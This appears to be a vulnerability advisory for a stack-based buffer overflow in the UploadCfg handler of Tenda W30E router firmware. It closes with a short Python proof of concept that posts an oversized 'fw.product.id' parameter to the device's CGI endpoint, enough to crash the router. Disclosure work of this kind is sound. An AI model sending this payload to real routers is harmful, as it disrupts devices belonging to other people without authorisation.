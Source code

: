 # Tenda W30E UploadCfg
### Overview
vendor: Tenda

product: W30E

version: <= V16.01.0.19(5037)

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/648432375324741
### Vulnerability Description
Tenda W30E V16.01.0.19(5037) were discovered to contain a stack overflow in the UploadCfg function.
### Vulnerability details
Stack-based buffer overflow in function UploadCfg on Tenda W30E before V16.01.0.19(5037) devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function UploadCfg line 93, it reads in a user-provided parameter, and the variable v17 is passed to the _isoc99_sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/UploadCfg-1.png)
![](images/UploadCfg-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/cgi-bin/UploadCfg'
payload = {
    "fw.product.id=": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
